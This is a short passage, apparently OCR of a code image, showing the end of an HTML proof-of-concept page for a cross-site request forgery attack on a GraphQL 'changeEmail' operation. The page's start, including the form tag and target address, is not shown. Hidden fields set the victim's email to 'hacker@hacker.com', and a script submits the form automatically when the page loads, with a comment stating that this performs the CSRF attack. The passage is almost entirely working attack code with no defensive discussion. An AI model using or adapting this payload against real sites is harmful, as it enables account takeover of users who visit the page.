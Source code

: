 ```html
        <input type="hidden" name="operationName" value="changeEmail" />
        <input type="hidden" name="variables" value="{&quot;input&quot;:{&quot;email&quot;:&quot;hacker@hacker.com&quot;}}" />
        <button type="submit">Change Email</button>
    </form>

    <script>
        // Automatically submit the form to perform the CSRF attack
        document.getElementById('csrf-form').submit();
    </script>
</body>
</html>
```


